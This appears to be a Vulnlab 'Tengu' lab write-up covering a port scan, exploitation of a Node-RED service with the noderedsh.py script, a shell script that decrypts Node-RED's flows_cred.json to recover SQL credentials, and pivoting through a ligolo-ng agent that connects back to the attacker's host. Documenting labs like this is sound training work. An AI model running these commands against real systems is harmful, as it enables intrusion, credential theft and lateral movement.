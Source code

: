 
# NMAP

* Rust scan result
 
```console
Open 10.10.185.167:22
Open 10.10.185.167:1880
```

## Web

* Node-red web service can be exploited via [noderedsh.py](https://gist.githubusercontent.com/qkaiser/79459c3cb5ea6e658701c7d203a8c297/raw/8966e4ee07400f16b92737161ca8df3cbfa37f91/noderedsh.py)

![image](https://github.com/reneanto/write-ups/assets/44943249/5def2930-6800-4a94-a52e-0a938e3747ed)
```bash
python3 noderedsh.py http://$IP:1080 --user "" --password ""
```

![nodered-svc](/Vulnlabs/Chains/Images/tengu-nodered.png)

### nodered_svc

* further exploring the nodered_svc directory, we come across `flows_cred.json` 
* according to this [article](https://blog.hugopoi.net/en/2021/12/28/how-to-decrypt-flows_cred-json-from-nodered-data/), we can get the `flows_cred.json` and the `.config.runtime.json` in to the folder `node_red_data` , then run the following script

```bash

#!/bin/bash
#
# Decrypt flows_cred.json from a NodeRED data directory
#
# Usage
# ./node-red-decrypt-flows-cred.sh ./node_red_data
#
jq  '.["$"]' -j $1/flows_cred.json | \
  cut -c 33- | \
  openssl enc -aes-256-ctr -d -base64 -A -iv `jq  -r '.["$"]' $1/flows_cred.json | cut -c 1-32` -K `jq -j '._credentialSecret' $1/.config.runtime.json | sha256sum | cut -c 1-64`
```

* upon running this we get the sql credentials that were found in the web application
## Pivoting

* navigate to /tmp on nodered as a good practice
* then use `ligolo-ng` to pivot

```bash
#on attacker machine
sudo ip tuntap add user rzgami mode tun ligolo
sudo ip link set ligolo up
./proxy --selfcert

#on nodered
./agent -connect $IP:11601 -ignore-cert

#on attacker machine
ligolo-ng>session
sudo ip route add 10.10.x.230/32 dev ligolo
sudo ip route add 10.10.x.229/32 dev ligolo
ligolo-ng>start
```